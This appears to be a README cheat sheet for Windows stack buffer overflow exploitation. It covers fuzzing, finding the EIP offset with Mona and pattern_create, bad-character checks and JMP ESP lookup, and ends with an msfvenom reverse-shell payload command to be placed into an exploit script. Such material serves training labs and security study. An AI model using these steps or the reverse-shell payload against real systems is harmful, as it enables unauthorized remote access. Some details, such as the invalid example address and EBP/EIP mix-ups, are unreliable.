 # Buffer-Overflow-Cheatsheet

In this cheat sheet is noted how we can perform an buffer overflow attack

Install Immunity Debugger this will be needed to perform the bugger overflow exploitation.
can be found on: https://www.immunityinc.com/

After installing Immunity debugger install Mona from: https://github.com/corelan/mona.
Put the .py file in the PyCommands folder (C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands. 
This module will be needed to determine the offset/ find the EIP.

## Fuzzing

After running the program on your Windows machine and have it attached to Immunity Debugger.
Run the fuzzer.py script to identify the point where the application will crash.

## Finding the Offset

After finding the crash point we want to find the Offset to the EIP adress.
To do this we can use the following script to generate a string.
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l {bytes}`

To determine the EIP we can use the following mona command:

`!mona findesp -distance {used bytes}`

Put the EIP in the exploit.py script and verify that EIP has been overwritten with the character "B" (42 in hexa)


## Badchars

To identify badchars we will use mona.

Run the badchars.py script and put the output in the exploit.py script to run it against the application the identify the badchars.
Use `!mona config -set workingfolder c:\mona\%p` to set the working folder and use `!mona bytearray -b “\x00` and use the compare command to check the values
`!mona compare -f C:\mona\{machine_name}\bytearray.bin -A {ESP ADRESS}`


## JMP ESP

After filtering out the badchars of the application, we will idenfitfy the equivalent for the OPCODE JMP ESP for change the flow of the application to run our shellcode rewriting the stack from its base (EBP). To find the equivalent of the OPCODE JMP ESP we can use the following command: `!mona -r esp -cpb "\x00"`

After finding the EBP adress we need to convert this adress to littl-endian format to use it in our code like this:

`0x0804197R <-> "\x7R\x19\x04\x08"`


## Exploitation

We can now generator our payload to run against our victim machine inserting the badchars we found using mona.
`msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

The `EXITFUNC=thread` prevents the shellcode from crashing the application when executing our shellcode.

Now just insert the out in the `exploit.py` script and run it against the application to get a reverse shell. Dont forget to open a listener!
